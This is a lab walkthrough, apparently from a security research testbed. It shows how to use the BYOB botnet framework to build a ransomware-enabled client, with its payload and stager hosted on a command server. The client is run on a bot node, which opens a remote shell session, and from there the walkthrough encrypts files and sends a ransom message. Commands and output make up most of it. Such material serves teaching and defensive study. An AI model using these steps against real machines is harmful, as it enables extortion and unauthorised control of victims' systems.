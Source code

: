 ## Ransomware Attack
The data is encrypted through a ransomware by botmaster (`botmaster` in our case) and the files can only be seen if decrypted from bot nodes (`b1` in our case).

### Connection with client

We will use the `botmaster` node to generate a client. The client will have a ransomware module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 ransom
```
The output should look like this:

```shell


88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[>] Modules
        Adding modules...  -[-] can't add module: 'ransom' (does not exist)
(4 modules added to client)

[>] Imports
        Adding imports...-(32 imports from 4 modules)

[>] Payload
        Uploading payload...  -(hosting payload at: http://botmaster.infra:1338/clients/payloads/jIJ.py)

[>] Stager
        Uploading stager... -(hosting stager at: http://botmaster.infra:1338/clients/stagers/jIJ.py)

[>] Dropper
        Writing dropper...  (355 bytes written to /modules/clients/droppers/byob_jIJ.py)
        Compiling executable...
91 INFO: PyInstaller: 6.4.0, contrib hooks: 2024.1
91 INFO: Python: 3.9.2
.
.
.
19652 INFO: Appending PKG archive to custom ELF section in EXE
19714 INFO: Building EXE from EXE-00.toc completed successfully.
(22,541,192 bytes saved to file: /opt/byob/byob/dist/jIJ)
```

We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/jIJ b1.infra:
```

Lastly, startup the server
```shell
python3 -u server.py
```
The server should start and should start a prompt as follows:

```shell
88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[?]  Hint: show usage information with the 'help' command

[rishitsaiya @ /opt/byob/byob]>
```

Parallely, SSH to the b1 node from your XDC through different terminal
```shell
ssh b1
```
Execute the payload from here
```shell
./jIJ
```

At this point, the server should display a message like:
```shell
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

Connect with the bot node using
```shell
shell 0
```
You can verify the socket connection by typing `ls` at prompt in server to check.

#### Test Files Creation
For demo purposes I have made `test.txt`, `test_dir/` on `b1` node.

```shell
rishitsaiya@b1:~$ ls
jIJ test_dir test.txt

rishitsaiya@b1:~$ cd test_dir/
rishitsaiya@b1:~/test_dir$ ls
test.txt
rishitsaiya@b1:~/test_dir$ cat test.txt 
This is a test file.
```

#### Random Key Pair Generation
We are using the keys generated from CryptoTools [https://cryptotools.net/rsagen] with a 2048 key length.

Let us call the keys _pub_ & _priv_ for our case. 

Usage line in `ransom.py` [here](https://github.com/STEELISI/DISCERN/blob/6d8fb527022693f06ef40d387ac0989e2c8f3456/byob/byob/modules/ransom.py#L63)
```shell
usage = 'ransom <encrypt/decrypt/payment> <file_name> [pub key] [priv key]'
```

#### Available Ransom Commands
There are three commands through `byob` bot. They are as follows:
- **encrypt** - `encrypt` would essentially encrypt the files with a key pair
- **decrypt** - `decrypt` would essentially decrypt the files with a key pair
- **payment** - `payment` would notify the bot nodes that you are hacked

#### Encrypt Ransom Command Usage

The **encrypt** command usage is as follows:

On `botmaster` node where the server is running, a typical command would look like as follows:

A command should look like this
```shell
[ 0 @ /home/rishitsaiya ]>ransom encrypt test.txt MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwr6x1f8XRzzi8Gvx8Uxys8Q/...IDAQAB MIIEpQIBAAKCAQEAwr6x1f8XRzzi8Gvx8Uxys8Q/...+kCUsXHpgh8oE=
```
It shall output with a message as follows:
```shell
test.txt encrypted
```

Parallely, if you observe the content of `test.txt` at the `b1` node, it shall be as follows:
```shell
rishitsaiya@b1:~$ cat test.txt
0DK4odBrMiSkh5WAoLlj94NuaGfmKpCggPCvX2LkC7DchCQu9nEwhyLM+/Nup8zyFYgiJQ==r
```
#### Decrypt Ransom Command Usage

The **decrypt** command usage is as follows:

On `botmaster` node where the server is running, a typical command would look like as follows:

A command should look like this
```shell
[ 0 @ /home/rishitsaiya ]>ransom decrypt test.txt MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwr6x1f8XRzzi8Gvx8Uxys8Q/...IDAQAB MIIEpQIBAAKCAQEAwr6x1f8XRzzi8Gvx8Uxys8Q/...+kCUsXHpgh8oE=
```
It shall output with a message as follows:
```shell
Decrypting files
```

Parallely, if you observe the content of `test.txt` at the `b1` node, it shall be as follows:
```shell
rishitsaiya@b1:~$ cat test.txt
This is a test file.
```

#### Payment Ransom Command Usage
The **payment** command usage is as follows:

On `botmaster` node where the server is running, a typical command would look like as follows:

A command should look like this
```shell
[ 0 @ /home/rishitsaiya ]>ransom payment
```
It shall output with a message as follows:
```shell
Launched a Windows Message Box with ransom payment information
```
This message can be re-altered if required through [here](https://github.com/STEELISI/DISCERN/blob/01bf739c1d0e06a202b4bb83e136a243a6e23dba/byob/byob/modules/ransom.py#L195).

Parallely, if you observe the terminal where the payload is running on the `b1` node, there will be message printed there:
```shell
Hackers are here!
```
This message can be re-altered if required through [here](https://github.com/STEELISI/DISCERN/blob/01bf739c1d0e06a202b4bb83e136a243a6e23dba/byob/byob/modules/ransom.py#L191).